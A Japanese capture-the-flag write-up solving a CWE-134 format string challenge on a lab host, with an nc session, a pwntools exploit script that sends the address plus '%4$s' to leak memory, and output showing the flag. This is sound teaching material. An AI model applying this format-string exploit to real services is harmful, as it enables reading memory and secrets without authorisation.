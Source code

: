 nc コマンドで接続してみると以下のように表示されました。CWE-134 は脆弱性の分類で format string bug です。

```shell
user@dee28892e0d7:~$ nc 10.1.1.10 13030
===========================================================
   _______          ________            __ ____  _  _   
  / ____\ \        / /  ____|          /_ |___ \| || |  
 | |     \ \  /\  / /| |__     ______   | | __) | || |_ 
 | |      \ \/  \/ / |  __|   |______|  | ||__ <|__   _|
 | |____   \  /\  /  | |____            | |___) |  | |  
  \_____|   \/  \/   |______|           |_|____/   |_|  
                                                        
========================================================== 

        | 
flag    | [0x565b8060] >> flag is here << 
        | 

Ready > 
```

[0x565b8060] はフラグが入っているメモリ上のアドレスで、このアドレスは実行する度に変化します。%p%p%p%p%p%p みたいな文字列を入力してみるとスタックの内容を表示することができて、表示された内容の4番目に入力した文字列そのものが出てきているようでしたので、[アドレスのバイト列]%4$s を入力すると format string bug によって入力した任意のアドレスの内容を文字列として読み出すことができそうです。以下のような Python スクリプトを作成してフラグが入っているアドレスの内容を読み出します。

```Python
import pwn

p = pwn.remote("10.1.1.10", 13030)
data = p.recvuntil("]").decode("UTF-8")
print(data)
address_text = data[-11:-1]
print("address_text: %s" % address_text)
address_binary = int(address_text, 16).to_bytes(4, "little")
data = p.recvuntil("Ready >").decode("UTF-8")
print(data)

payload = address_binary + b"%4$s"
p.sendline(payload)
p.interactive()
```

```shell
$ python3 solver.py 
[+] Opening connection to 10.1.1.10 on port 13030: Done
===========================================================
   _______          ________            __ ____  _  _   
  / ____\ \        / /  ____|          /_ |___ \| || |  
 | |     \ \  /\  / /| |__     ______   | | __) | || |_ 
 | |      \ \/  \/ / |  __|   |______|  | ||__ <|__   _|
 | |____   \  /\  /  | |____            | |___) |  | |  
  \_____|   \/  \/   |______|           |_|____/   |_|  
                                                        
========================================================== 

        | 
flag    | [0x565d7060]
address_text: 0x565d7060
 >> flag is here << 
        | 

Ready >
[*] Switching to interactive mode
 Your Inpur : `p]Vflag{Homenum_Revelio_1989}
[*] Got EOF while reading in interactive
$ 
```